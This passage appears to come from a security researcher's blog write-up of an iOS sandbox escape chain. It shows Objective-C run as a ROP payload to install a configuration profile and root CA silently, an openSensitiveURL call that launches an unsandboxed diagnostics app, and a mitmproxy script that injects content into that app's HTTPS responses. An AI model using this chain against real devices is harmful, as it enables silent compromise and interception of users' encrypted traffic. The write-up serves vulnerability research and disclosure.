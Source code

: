 The one I will use are: `com.apple.managedconfiguration.profiled-access` and `com.apple.springboard.opensensitiveurl` for our sandbox escape :)

I will use the first to install a configuration profile silently, in this way we can install our own Root CA to intercept and edit the HTTPS traffic, not only the HTTP.

I will also use it to demonstrate how dangerous it can be, I will install an additional fake app on the iOS device, I will change the APN settings and set a proxy, essentially compromising forever and dramatically the iOS device.. Anyway all those are side effects.. And they are all capabilities provided from configuration profile.

The problem is that we can install a configuration profile silently and without user interaction with that entitlement.

Usually when installing a configuration profile, a user is prompted with this UI, but this time it will not, because we have the entitlement.

Let's just focus on getting code execution outside of the sandbox now.

We will execute this code as a ROP payload, thanks to our RCE webkit bug:
{% highlight c %}
void install_profile() {
    NSString *base64profile = @"OMITTEDPROFILE_BASE64";

    NSData *profileData = [[NSData alloc] initWithBase64EncodedString:base64profile options:0];

    MCProfileConnection *profileConnection = [MCProfileConnection sharedConnection];
    NSLog(@"profile conn %@", profileConnection);

    id error;
    NSString *profileId = [profileConnection installProfileData:profileData outError:&error];

    NSLog(@"installed profile id %@ err %@", profileId, error);
}
{% endhighlight %}

This code will speak to a system deamon via xpc/NSXPC to install our provided configuration profile silently, very convenient!

So as you can see now the profile is installed. With our Root CA.

Now we will use another bug to laterally move to another Application which is not sandboxed. And reuse the same WebKit RCE bug to get code execution out of the sandbox!

Always in ROP we will execute the following:

{% highlight c %}
[[LSApplicationWorkspace defaultWorkspace] openSensitiveURL:@"legacy-diagnostics:" withOptions:0];
{% endhighlight %}

This will popup a Diagnostic application, which will issue a https request, which we will mitm again, and serve the same exploit, finally gaining remote code execution out of the sandbox!

This iOS Feedback is running unsandboxed on the system.

We can then again leverage mitmproxy to serve the webkit exploit like before. The request is https, but remember, WE INSTALLED A ROOT CA on the device, so we can man in the middle this request now!

{% highlight python %}
def response(context, flow):
    if flow.request.path.endswith('ios/LegalText/1.2') or flow.request.path.endswith('GetOptinText'):
        flow.response.content = "<script>alert('exploit again');</script>"
        flow.response.headers['Content-Length'] = str(len(flow.response.content))
        if 'Content-Encoding' in flow.response.headers: del flow.response.headers['Content-Encoding']
{% endhighlight %}


[dowd-airdrop]: http://2015.ruxcon.org.au/assets/2015/slides/ruxcon-2016-dowd.pptx